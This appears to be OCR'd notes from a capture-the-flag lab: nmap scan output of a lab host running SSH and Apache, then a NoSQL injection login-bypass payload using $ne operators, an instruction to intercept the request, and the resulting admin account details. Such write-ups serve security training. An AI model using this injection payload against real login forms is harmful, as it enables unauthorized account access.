 ```
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Nmap scan report for 10.10.242.42
Host is up, received user-set (0.21s latency).
Scanned at 2023-01-01 15:00:18 EST for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 695e4d9f42119832462db11fd2f893c6 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCoOYXqj7brvle0nCFw5/gdGwBjI2/fA5BZfEeMyXjUdzIU8T/4qoaYERKrdE2hVyWfdD/RESfvjSSCVVogskA4UdN4eExspK7vmLAVo18xyH9C0c8r7IpAvoZ6vpZiOan+5uZoN19mBZcP0GwkYWUw4LpeJn1QCvadnNB+3KuKgmgdBfZhZZsqPbIgPJ4xzWheA5rcDZYQRgEib5hsT5VsOXOHiF0vDZGxijjaj6c2MxgJHgvIFZSQxJEr97kgHP/EhIFYR+/P883aIntuzXJUeVPl2tuz2/vNA9UDicwkwcjsullkuqTCiN4TPADSWMGTnsyAH+6xXJEWcplfhyYr
|   256 6df8cffe210ee360d8a46e3457e6164a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN2ckBeOIDZpRuAiX1BwkmamRUVEbSODJhNYYWJzchEbhgk5cEYincGr7ziuzXJhWoMQcuT7UkAC21/QcMgmnOw=
|   256 05033daeaccc7a5889c8f24a350b4f3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICznQ1AX5cSnmTWwuWNvhFRQYEOVH2iDTuj4nwrD8frK
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.80 seconds


user[$ne]=witty&pass[$ne]=witty1&remember=on

do intercept to this request

User:	admin
Password:	************
Full Name:	
email:	admin@nosql.int



```
